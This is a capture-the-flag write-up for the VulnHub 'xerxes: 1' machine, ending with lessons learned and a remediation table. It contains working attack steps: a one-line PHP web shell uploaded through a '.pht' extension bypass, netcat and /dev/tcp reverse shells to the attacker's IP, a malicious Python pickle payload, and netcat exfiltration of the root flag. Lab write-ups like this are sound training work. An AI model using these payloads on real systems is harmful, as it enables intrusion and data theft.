




# xerxes: 1 — Writeup

| | |
|-|-|
| **Target IP** | 192.168.1.102 (host-only) |
| **Difficulty** | Beginner |
| **OS** | Linux |
| **Root Flag** | PNG image at `/root/flag` |
| **Source** | [VulnHub](https://www.vulnhub.com/entry/xerxes-1,58/) |

## Attack Summary

`nmap` → `/dev` QR code → base64 → steganography (GIMP alpha layer) → Brainfuck decode → `.pht` webshell upload → reverse shell → `.bash_history` cred (amanpour) → SUID `notes` pickle injection (curtiz group) → SSH key (delacroix) → `generate.sh` MD5 timestamp → `sudo bash` → root

## Methodology

1. Network discovery — only HTTP (port 80) open
2. `dirb` finds `/dev` with QR code image
3. QR → base64 → GIMP alpha-channel stego → Brainfuck → upload password
4. Upload PHP shell with `.pht` extension bypass
5. Reverse shell; lateral movement via `.bash_history`
6. SUID binary `notes` with pickle deserialization
7. SSH key for `delacroix`; `generate.sh` produces sudo password via MD5

---

## Step 1: Network Discovery

```bash
sudo netdiscover -i eth1 -r 192.168.1.0/24
nmap -A 192.168.1.102
```

Only port 80 (HTTP) is open.


---

## Step 2: Directory Brute-Force

```bash
dirb http://192.168.1.102
```

Discovers `/dev` — contains an upload page and a QR code image.



---

## Step 3: Multi-Layer Steganography

**Layer 1 — QR code:** Scan the QR code → base64 string → decode → "look deeper into the image"

**Layer 2 — Alpha channel (GIMP):**
Open the QR image in GIMP: `File → Open As Layers`. Isolate the alpha channel. Use the Color-Picker tool to read alpha values pixel by pixel. Convert decimal alpha values to ASCII characters → another base64 string.

**Layer 3 — Base64 → Brainfuck:** Decode the base64 → Brainfuck code. Run it to get the upload password.



---

## Step 4: Web Shell Upload

The `/dev` upload form accepts files with a password. PHP files are blocked, but `.pht` is not:

```bash
# Create PHP shell
echo '<?php system($_GET["cmd"]); ?>' > shell.pht
# Upload at http://192.168.1.102/dev — use the decoded password
# Test RCE:
curl "http://192.168.1.102/dev/uploads/shell.pht?cmd=id"
```

---

## Step 5: Reverse Shell

```bash
# Listener
nc -lvp 1234

# Via shell.pht:
curl "http://192.168.1.102/dev/uploads/shell.pht?cmd=nc+-e+/bin/bash+192.168.1.109+1234"

# Upgrade TTY:
python -c 'import pty;pty.spawn("/bin/bash")'
```



---

## Step 6: Lateral Movement to amanpour

```bash
cat /home/amanpour/.bash_history
# Shows: python steqr.py -f newpassword
# Run steqr.py with the argument to recover amanpour's password
su amanpour
```

---

## Step 7: SUID Pickle Injection (curtiz group)

```bash
find / -perm -4000 -type f 2>/dev/null
# Finds: /opt/notes (SUID, loads Python pickle files)
```

Create a malicious pickle in `/tmp`:

```python
import pickle, os

class Exploit(object):
    def __reduce__(self):
        return (os.system, ('/bin/bash -i >& /dev/tcp/192.168.1.109/5555 0>&1',))

with open('/tmp/shell.pkl', 'wb') as f:
    pickle.dump(Exploit(), f)
```

```bash
# Load the pickle via the SUID binary (path traversal):
/opt/notes ../../tmp/shell
# Shell arrives as curtiz group / elevated user
```

---

## Step 8: SSH Key to delacroix

```bash
cat /home/curtiz/notes       # → hints at user "Marie" → delacroix
cat /etc/passwd              # → marie is delacroix
strings /bin/delacroix       # → MD5 hash, decrypts to: VonBraun
cat /home/curtiz/id_rsa      # → RSA private key for delacroix
chmod 600 id_rsa
ssh -i id_rsa delacroix@192.168.1.102
```

---

## Step 9: Root via generate.sh

```bash
ls -la ~
cat generate.sh
# Creates .last; derives sudo password from file timestamp MD5
./generate.sh
stat .last                   # note the timestamp (e.g. 00:19:51)
echo "00:19:51" | md5sum     # → produces the sudo password
sudo bash                    # enter the MD5 hash as password
```

```bash
id && whoami
# uid=0(root)
file /root/flag
# PNG image — exfiltrate with netcat:
nc 192.168.1.109 6666 < /root/flag
```



---

## Lessons Learned

1. **Multi-layer steganography** (QR → base64 → alpha channel → Brainfuck) is an unusual but realistic credential obfuscation technique
2. **File upload extension bypass** (`.pht`, `.phtml`, `.php5`) occurs when blocklists are used instead of allowlists
3. **Pickle deserialization** of untrusted data via SUID binaries is an arbitrary code execution vulnerability (CWE-502)
4. **Timestamp-derived passwords** are trivially brute-forced when the timestamp range is known

## Remediation

| Vulnerability | Fix |
|---|---|
| File upload bypass (.pht) | Use allowlist for extensions (`.jpg`, `.png` only); validate MIME type |
| Pickle deserialization (SUID) | Never deserialize untrusted data; use JSON or safer formats |
| SSH key accessible to group | Restrict SSH private keys to `600` and owner only |
| Timestamp-derived password | Use cryptographically random passwords, not time-based derivation |
